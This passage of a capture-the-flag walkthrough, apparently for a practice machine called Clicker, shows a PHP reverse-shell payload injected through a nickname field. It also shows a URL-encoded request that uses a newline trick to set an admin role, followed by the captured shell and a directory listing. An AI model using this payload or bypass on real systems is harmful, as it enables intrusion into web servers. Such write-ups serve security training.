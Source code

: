 Now we can create the POST request to generate a PHP file. For example with Burp:

![PHP file](./images/php.png)

If we now access the file `exports/top_players_bph182y3.php` we get the proof for the successful command injection:
```
Nickname	Clicks	Level
uid=33(www-data) gid=33(www-data) groups=33(www-data)	5000	5
admin	999999999999999999	999999999
ButtonLover99	10000000	100
Paol	2776354	75
Th3Br0	87947322	1
```

With that information we can create a reverse shell if we use this command as nickname: `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.45.203/8080 0>&1'"); ?>`

The HTTP request would be `/save_game.php?clicks=5000&level=5&role%0a=Admin&nickname=<%3fphp+exec("/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.9.45.203/8081+0>%261'")%3b+%3f>`

If we now create another export in `.php` format and request that file we can catch our reverse shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8081
Listening on 0.0.0.0 8081
Connection received on 10.10.11.232 51894
bash: cannot set terminal process group (1199): Inappropriate ioctl for device
bash: no job control in this shell
www-data@clicker:/var/www/clicker.htb/exports$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@clicker:/var/www/clicker.htb/exports$
```

## User flag
We find ourself in the export directory as the user `www-data`:
```
www-data@clicker:/var/www/clicker.htb/exports$ ls -al 
total 16
drwxr-xr-x 2 www-data www-data 4096 Dec 11 19:39 .
drwxr-xr-x 4 root     root     4096 Sep  5 19:19 ..
-rw-r--r-- 1 www-data www-data  303 Dec 11 19:38 top_players_92y9dt25.txt
-rw-r--r-- 1 www-data www-data  635 Dec 11 19:39 top_players_g0fao3nz.php
www-data@clicker:/var/www/clicker.htb/exports$ pwd
/var/www/clicker.htb/exports
www-data@clicker:/var/www/clicker.htb/exports$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@clicker:/var/www/clicker.htb/exports$
```
